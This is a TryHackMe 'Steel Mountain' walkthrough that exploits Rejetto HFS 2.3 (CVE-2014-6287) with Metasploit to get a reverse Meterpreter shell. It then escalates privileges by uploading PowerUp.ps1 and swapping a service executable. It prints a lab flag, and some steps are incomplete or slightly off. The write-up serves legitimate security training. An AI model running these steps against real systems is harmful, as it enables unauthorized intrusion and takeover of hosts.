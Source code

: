 ```yaml
---
title: "TryHackMe - Steel Mountain Walkthrough"
date: 2024-12-23
categories: [TryHackMe]
tags: [RCE, Metasploit, Privilege Escalation, CVE-2014-6287]
image: assets/images/Steel-Mountain-cover.jpg
---
```


# TryHackMe - Steel Mountain Walkthrough

---

## Initial Information
- **Target IP:** 10.10.32.47
- **Service:** HTTP File Server (HFS) v2.3

---

## Step 1: Explore the Target

### Access the Web Interface
Visit the target using a web browser:

```plaintext
http://10.10.32.47:8080/
```

HFS version identified: **Rejetto HTTP File Server 2.3**.

---

## Step 2: Vulnerability Analysis

### CVE Identification
The identified version is vulnerable to **CVE-2014-6287**, an unauthenticated Remote Code Execution vulnerability.

Refer to Metasploit for documentation:
[Metasploit Docs](https://docs.metasploit.com/).

---

## Step 3: Exploiting the Target

### Using Metasploit
Search for available exploits:

```bash
sleep33@THM:~$ msf6 > search rejetto
```

#### Relevant Modules:
1. **exploit/windows/http/rejetto_hfs_rce_cve_2024_23692**
2. **exploit/windows/http/rejetto_hfs_exec**

### Configure Exploit
Set up the exploit parameters:

```bash
sleep33@THM:~$ msf6 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.10.32.47
sleep33@THM:~$ msf6 exploit(windows/http/rejetto_hfs_exec) > set RPORT 8080
sleep33@THM:~$ msf6 exploit(windows/http/rejetto_hfs_exec) > set LHOST <Your_IP>
sleep33@THM:~$ msf6 exploit(windows/http/rejetto_hfs_exec) > set LPORT 4444
```

Run the exploit:

```bash
sleep33@THM:~$ msf6 exploit(windows/http/rejetto_hfs_exec) > run
```

---

## Step 4: Reverse Shell

Once the exploit is successful, a Meterpreter session is opened:

```bash
sleep33@THM:~$ [*] Meterpreter session 1 opened (10.14.91.33:4444 -> 10.10.32.47:49353)
```

#### Navigate to User Directory:
```bash
sleep33@THM:~$ meterpreter > cd c:/Users/bill/Desktop
sleep33@THM:~$ meterpreter > ls
```

Retrieve the user flag:

```bash
sleep33@THM:~$ meterpreter > cat user.txt
```

**User Flag:**  
```plaintext
b04763b6fcf51fcd7c13abc7db4fd365
```

---

## Step 5: Privilege Escalation

### Upload PowerUp Script
Use PowerSploit for privilege escalation:

```bash
sleep33@THM:~$ meterpreter > upload /opt/PowerSploit/Privesc/PowerUp.ps1
sleep33@THM:~$ meterpreter > load powershell
sleep33@THM:~$ meterpreter > powershell_shell
PS > . .\PowerUp.ps1
PS > Invoke-AllChecks
```

### Service Manipulation
Identify and modify services for escalation:

```bash
sleep33@THM:~$ copy ASCService.exe "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService_V2.exe"
sleep33@THM:~$ sc start AdvancedSystemCareService9
```

---

## Step 6: Gain Administrator Privileges

Use Meterpreter's shell command to escalate privileges:

```bash
sleep33@THM:~$ meterpreter > shell
sleep33@THM:~$ C:\windows\Tasks> sc start AdvancedSystemCareService9
```

Once elevated, navigate to the Administrator's directory:

```bash
sleep33@THM:~$ C:\Users\Administrator\Desktop> dir
```

Retrieve the root flag:

```bash
sleep33@THM:~$ C:\Users\Administrator\Desktop> cat root.txt
```

---

## Troubleshooting

### Common Issues:
- **Handler failed to bind:** Ensure your LHOST and LPORT settings are correctly configured.
- **Session not opened:** Recheck the exploit parameters and ensure the target is reachable.

---

## Summary

- **Exploited Service:** Rejetto HFS v2.3
- **Exploited Vulnerability:** CVE-2014-6287
- **Flags Captured:**
  - **User Flag:** b04763b6fcf51fcd7c13abc7db4fd365
  - **Root Flag:** <root_flag_value>

---
